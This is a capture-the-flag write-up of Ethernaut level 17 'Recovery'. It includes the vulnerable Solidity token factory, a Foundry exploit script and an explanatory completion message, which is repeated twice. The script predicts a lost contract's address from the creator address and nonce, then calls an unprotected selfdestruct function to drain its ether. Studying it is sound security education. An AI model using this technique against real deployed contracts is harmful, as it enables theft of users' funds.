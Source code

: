 # Level 17 - Recovery ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/17" %}

### Level Setup

{% hint style="info" %}
A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Recovery.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-17

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-17

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/f51d39d28d064332745483d477099a1ba9b9fe9a/script/Level17.s.sol" %}

{% code title="script/Level17.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                       LEVEL 17 - RECOVERY                    │
// ================================================================
interface ISimpleToken {
    function destroy(address payable _to) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        // The first contract deployed will have a nonce of 1
        uint256 nonce = 1;

        // Find the address of the first contract deployed
        address firstContractAddress = address(
            uint160(
                uint256(
                    keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), targetContractAddress, bytes1(uint8(nonce))))
                )
            )
        );

        // Call destroy on the target contract
        ISimpleToken(firstContractAddress).destroy(payable(msg.sender));
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](https://swende.se/blog/Ethereum\_quirks\_and\_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](https://swende.se/blog/Ethereum\_quirks\_and\_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.
{% endhint %}
